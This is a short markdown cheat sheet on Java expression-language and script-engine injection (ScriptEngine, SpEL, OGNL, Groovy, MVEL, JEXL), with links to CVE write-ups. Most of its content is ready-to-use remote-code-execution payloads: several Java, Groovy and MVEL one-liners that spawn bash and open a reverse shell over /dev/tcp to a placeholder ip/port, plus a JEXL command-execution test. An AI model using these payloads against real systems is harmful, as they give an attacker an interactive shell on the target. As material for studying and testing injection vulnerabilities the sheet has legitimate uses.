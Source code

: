 ## Scene
- 1.condition: compare
- 2.calculate: number
- 3.handling: validator

## Type
- ScriptEngine
  - new ScriptEngineManager.getEngineByName("js").eval(input);
```
java.lang.Runtime.getRuntime().exec(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"])
```

- SpEL
### CVE
- [hibernate_validtor_EL_Execute](https://kevinsa.com/2020/06/17/hibernate-validtor-EL-Execute/)
- [深入BeanValidation的RCE漏洞](https://xz.aliyun.com/t/10693#toc-2)

- OGNL
  - getValue()
  - Internal implement principle: findValue
  
- Groovy
  ```java
  class RCE{ public static Object obj = java.lang.Runtime.getRuntime().exec(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"]); }
  Math.class.forName("java.lang.ProcessBuilder").newInstance().command("/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1").start()
  ```
- MVEL
  - MVEL.eval()
 ```java
 new java.lang.ProcessBuilder(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"]).start();
 ```
 - JEXL
  ```java
  233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/test')
  ```

### CVE
- [Nexus Repository Manager3 JEXL3表达式注入浅析](https://xz.aliyun.com/t/8099)

- Self-Implement-Reflection
  - 危险静态方法调用: static
  - xx.getClass.forName("").getMethod()
